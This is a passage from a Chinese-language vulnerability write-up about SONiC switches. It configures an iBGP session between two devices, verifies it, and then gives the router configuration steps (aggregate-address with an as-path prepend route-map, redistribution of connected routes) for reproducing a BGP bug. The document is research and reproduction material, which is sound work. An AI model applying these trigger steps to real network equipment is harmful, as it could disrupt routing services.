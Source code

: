 SONIC2

```
#配置端口IP地址
SONiC1(config):interface Ethernet8
SONiC1(config-if):ip addr 192.168.3.2/24
#建立路由
SONiC1(config):ip route 192.168.3.1/32 172.17.16.17
#清除预设的bgp as
SONiC(config):no router bgp 65100
#建立IBGP邻居，65100是默认的AS号
SONiC(config):router bgp 65100
SONiC1(config-router):neighbor 192.168.3.1 remote-as 65100
SONiC1(config-router):neighbor 192.168.3.1 update-source Ethernet8
//非物理端口建立连接要声明建立连接的端口
```

进行上述配置之后，进行验证，**应确保如下所示的条件**，才可进行下一步：
- SONIC1可以通过`192.168.3.2`到达通SONIC2
- SONIC2可以通过`192.168.3.1`到达通SONIC1
<li>SONIC1/2互相可以获取到对方的`ROUTER ID`
</li>
具体说明：

以SONIC1为例，执行了`ping 192.168.3.2`和`show ip bgp neighbors`进行结果验证：
- 首先，ping结果正常，如果ping都不通更别想玩bgp了
<li>且bgp邻居的截图中，`remote router ID`不为`0.0.0.0`，`local router ID`是刚刚配置的`192.168.3.1`自己的IP，并且状态为已建立连接：`BGP state = Established`
</li>
[![](https://p2.ssl.qhimg.com/t01b85b5a7008851185.png)](https://p2.ssl.qhimg.com/t01b85b5a7008851185.png)

信息统计中不全为0，有收发记录

[![](https://p1.ssl.qhimg.com/t01720a65c4fbb147b2.png)](https://p1.ssl.qhimg.com/t01720a65c4fbb147b2.png)

### <a class="reference-link" name="2.%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0"></a>2. 漏洞复现

先在SONIC1进行配置

```
sonic# configure terminal
sonic(config)# router bgp 65100
sonic(config-router)# address-family ipv4 unicast
sonic(config-router-af)# aggregate-address 20.0.0.0/24 summary-only route-map 1
sonic(config-router-af)# exit-address-family
sonic(config-router)# route-map 1 permit 1
sonic(config-route-map)# set as-path prepend 1 2 3 4 5
```

然后在SONIC2配置

```
sonic# configure terminal
sonic(config)# interface Ethernet20
sonic(config-if)# ip addr 20.0.0.1/31
sonic(config-if)# interface Ethernet24
sonic(config-if)# ip addr 20.0.0.3/31
sonic(config-if)# router bgp 65100
sonic(config-router)# address-family ipv4 unicast
sonic(config-router-af)# redistribute connected
```
